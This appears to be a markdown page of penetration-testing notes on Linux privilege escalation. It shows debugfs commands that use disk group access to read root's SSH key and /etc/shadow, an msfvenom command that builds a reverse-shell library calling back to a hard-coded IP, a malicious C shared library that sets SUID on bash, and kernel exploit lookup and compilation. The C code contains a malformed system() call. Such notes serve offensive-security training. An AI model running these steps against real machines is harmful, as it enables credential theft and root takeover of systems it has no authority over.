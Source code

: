 ## Abusing Group Memberships
- Check out [Interesting Groups - Linux Privesc](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html) for a complete list of groupmemberships that might grant us additional privileges
### Disk group
- If we are part of the `disk` group we can ready any file on the machine
```zsh
df -h #Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
- We can also write files except files owned by root (i.e `/etc/shadow`)
```zsh
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
## LD.SO Misconfiguration
- If the `LD_LIBRARY_PATH` path is writable we can add a shared library to it that might get get loaded by an executable executed by a higher privileged user (i.e via cronjob)
- To identify shared libraries loaded by executables we can use `ldd <filename>`
- To create a malicious library file we can use `msfvenom`
```zsh
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=192.168.45.237 LPORT=9001
```
```c
//Or manually compile the below C file with gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
//try seting SUID on bash and get a root shell
    system("chmod +s /bin/bash");
//or alternatively try to run a command
    system("/bin/sh",NULL,NULL);
}
```
- After compiling the above and putting it in the shared library path, we need to wait for a **reboot** or for the root user to execute **`ldconfig`** (_in case you can execute this binary as **sudo** or it has the **suid bit** you will be able to execute it yourself_). 
- After can verify if it is being loaded again with `ldd <filename>`

# Using Exploits
- Check system information with `cat /etc/issue; cat /etc/*-release; uname -r; arch
- We can use `searchsploit` to check for quick wins
```zsh
sp "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
- If we find an exploit that might work, check the source, modify as needed and then compile
```zsh
gcc cve-2017-16995.c -o cve-2017-16995
```
